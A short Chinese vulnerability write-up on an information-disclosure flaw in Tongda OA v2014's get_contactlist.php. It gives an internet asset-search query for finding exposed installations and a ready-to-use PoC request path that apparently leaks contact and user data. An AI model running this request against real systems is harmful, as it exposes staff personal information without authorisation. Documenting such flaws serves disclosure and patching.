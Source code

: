 # 通达OA v2014 get_contactlist.php 敏感信息泄漏漏洞

## 漏洞描述

通达OA v2014 get_contactlist.php文件存在信息泄漏漏洞，攻击者通过漏洞可以获取敏感信息，进一步攻击

## 漏洞影响

```
通达OA v2014
```

## 网络测绘

```
app="TDXK-通达OA"
```

## 漏洞复现

版本信息

![image-20220520154718609](./images/202205201547687.png)

验证POC

```
/mobile/inc/get_contactlist.php?P=1&KWORD=%25&isuser_info=3
```

![image-20220520154741599](./images/202205201547656.png)